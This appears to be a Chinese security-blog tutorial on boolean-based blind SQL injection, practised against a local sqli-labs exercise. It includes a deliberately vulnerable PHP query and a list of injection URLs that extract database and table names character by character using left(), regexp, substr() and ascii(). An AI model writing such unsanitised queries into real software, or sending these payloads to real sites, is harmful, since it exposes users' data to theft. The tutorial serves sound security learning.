 ```yaml
---
layout: post
title: "1.3.1-SQL注入-SQL盲注-布尔盲注"
date: 2018-06-21
category: web安全
tags: sql注入 sql盲注
---
```

## SQL盲注-布尔盲注

### 01布尔盲注原理
	
	$id=$_GET['id'];
	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1 ";
	$result=mysql_query($sql);
	$row=mysql_fetch_array($result);
	if($row)
	{
		echo "Right";
	}
	else
	{
		echo "Wrong";
	}


代码存在SQL注入漏洞  
然而页面即不会回显数据，也不会回显错误信息  

只返回 “Right” 与 “Wrong”   

这里我们可以通过构造语句，来判断数据库信息的正确性，再通过页面的“真”和“假”来识别我们的判断是否正确，这既是布尔盲注！  


正确请求，id=1 -> 返回 id=1的数据  

错误请求，id=1' -> 返回 与正确页面不同的页面  
1.如果页面返回“假”，说明系统执行的SQL语句为“假”如：id=1 and left((select version()),1)=5--+  
2.想办法构造语句，判断数据库中内容的值  
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/01.jpeg)

### 02布尔盲注方法

构造逻辑判断语句，判断信息的真假，取出所有的真值，实现SQL注入  

	left() left(database(),1)>'s'
			database()显示数据库名称，left(a,b)从左侧截取a的前b位
	regexp select user() regexp '^r'
			正则表达式的用法user()结果位root,regexp为匹配root的正则表达式
	like	select user() like 'ro%'
			与regexp类似，使用like进行匹配
	substr()  ascii(substr((select database()),1,1))=98
	ascii() substr(a,b,c)从b位置开始，截取字符串a到c长度，ascii()将某个字符转换为ascii值
	ord()	ord(mid((select user()),1,1))=114
	mid()	mid(a,b,c)从位置b开始，截取a字符串的c位ord()函数痛ascii(),将字符串转为ascii值
	
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/02.jpeg)


[MySql正则表达式](http://www.runoob.com/mysql/mysql-regexp.html)

注入点： 

	http://localhost:90/Less-8/?id=1'
	http://localhost:90/Less-8/?id=1' and left((select database()),1)='a'--+
	http://localhost:90/Less-8/?id=1' and left((select database()),1)='s'--+ 显示正确第一位为s

	http://localhost:90/Less-8/?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='e'--+ 第一个表名称字符

	http://localhost:90/Less-8/?id=1' and (select database() regexp '^s')--+

	http://localhost:90/Less-8/?id=1' and (select table_name from information_schema.tables where table_schema=database() limit 0,1) regexp '^s')--+

	http://localhost:90/Less-8/?id=1' and (select table_name from information_schema.tables where table_schema=database() limit 0,1) like 'e%')--+

	http://localhost:90/Less-8/?id=1 and ascii((substr((select database()),1,1))=115--+

	http://localhost:90/Less-8/?id=1 and ascii((substr((select table_name from information_schema.tables where table_schema=database()),1,1))=115--+


![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/ascii.jpg)


## burp操作步骤
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/03.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/04.jpg)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/05.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/06.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/07.jpg)

















